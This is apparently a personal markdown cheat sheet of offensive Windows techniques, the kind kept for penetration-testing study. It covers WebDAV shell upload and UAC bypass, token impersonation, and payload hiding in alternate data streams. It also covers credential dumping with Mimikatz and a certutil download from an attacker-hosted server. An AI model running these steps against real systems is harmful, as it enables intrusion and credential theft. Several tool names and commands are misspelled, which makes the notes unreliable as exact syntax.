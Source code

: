 ## Frequently Exploited Services
```
Microsoft IIS (internet information services)
WebDAV (WebBased Distributed Authoring and versioning)
RDP (Remote Desktop Protocol)
WinRM (Remote Management)
```

## MicrosoftIIS + WebDAV Exploiting
```
Enumerate using -----     davtest
Upload shell and Exploit using  ------ cadaver
```

## MSFConsole
```
multi/recon/local_exploit_suggester
```
## Kernal Exploits

```
exploit suggester python script --database --systeminfo
```

## Window Privesc
### UACME
```
UAC Bypassing UACME
```
### Access Token Impersonation ( Noted: Access Token are created and managed by "LSASS Local Security Authority SubSystem Service" then attached to userinit.exe)

#### Privilege Required For Impersonation
```
SeAssignPrimaryToken:
SeCreateToken:
SeImpersonatePrivilege:
```
- Command For TokenManipulation or Impersonation
```
Invoke-TokenManipulation -enumerate
```
#### Incoginto in Metasploit
```
load incognito
list_tokens -u
impersonate_token "--token---"
```
### Alternate Data Streams ( To hide malicious payload inside the legitimate files' metadata )
```
first create a txt file : "notepad lee.txt"
type "file to hide" > lee.txt:somthing.exe
mklink aname.exe C:\path\to\lee.txt:something.exe
.\aname.exe
```
### Dumping Password Hashes
#### NT NTLM hashes 
```
NT --> Split into seven chunk of character, uppercase them all, DES Algorithm
NTLM --> Case-sensitive, use MD4 algorithms
```

#### Search Password in Window Config files
##### Unattened Window Setup Utility
```
C:\\Windows\Panther\Unattend.xml
C:\\Windows\Panther\Autounattend.xml
```
### Dumping Password Hash with Mimitkaz 
#### Kiwi extension
```
load kiwi (in meterpreter shell)
? for help
```
#### Mimitkaz 
```
upload mimitkaz (from meterpreter) or
python3 -m http.server(Attacker), cerutil -urlcache -split -f http://file/to/download.extension C:\\mimitkatz
```
##### Mimitkaz commands
```
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::loggedonpasswords  (Dump loggedon password in plain text)

```
#### Pass the Hashes
easy























